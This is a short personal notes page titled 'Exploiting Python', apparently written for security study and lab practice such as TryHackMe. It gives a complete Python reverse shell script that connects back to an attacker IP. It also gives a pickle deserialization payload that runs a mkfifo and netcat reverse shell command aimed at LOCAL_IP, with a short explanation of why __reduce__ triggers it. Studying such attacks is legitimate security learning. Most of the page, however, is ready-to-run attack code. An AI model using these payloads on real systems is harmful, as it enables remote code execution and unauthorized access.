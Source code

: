 # Exploiting Python

* **author**:: Nathan Acks  
* **date**:: 2022-07-11

## A Simple Reverse Shell

```python
import socket
import subprocess
import os

attacker_ip = "10.0.0.1"
attacker_port = 1234

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((attacker_ip, attacker_port))

os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)

subprocess.call(["/bin/sh", "-i"])
```

Catch it with netcat or socat.

* [slyth11907 / Cheatsheets](https://github.com/slyth11907/Cheatsheets)

## Python Pickles

One way to attack Python webapps is to exploit the pickle.loads() operation, which reconstructs objects from an encoded data stream. When an object is reconstructed it is actually fully initialized, which means that things like `object.__reduce__()` are run.

For example, the TryHackMe: OWASP Top 10 room has us use the following code to create a malicious base64 encoded object to feed pickle.loads() (LOCAL_IP gets replaced by your machine's IP):

```python
import pickle		
import sys		
import base64		

command = 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc LOCAL_IP 4444 > /tmp/f'		

class rce(object):		
    def __reduce__(self):		
        import os		
        return (os.system,(command,))		

print(base64.b64encode(pickle.dumps(rce())))
```

What's getting encoded here is the `rce` class. Python will call `rce.__reduce__()` to determine how to initialize this class when pickle.loads() deserializes it, and `__reduce__()` wil return the tuple `(os.system, (command,))`, where `command` is basically our standard Metasploit reverse shell. Python then initializes the class by using os.system to call `command`, and there's our reverse shell!

* [Exploiting Python pickles](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)
* [pickle - Python object serialization](https://docs.python.org/3/library/pickle.html)
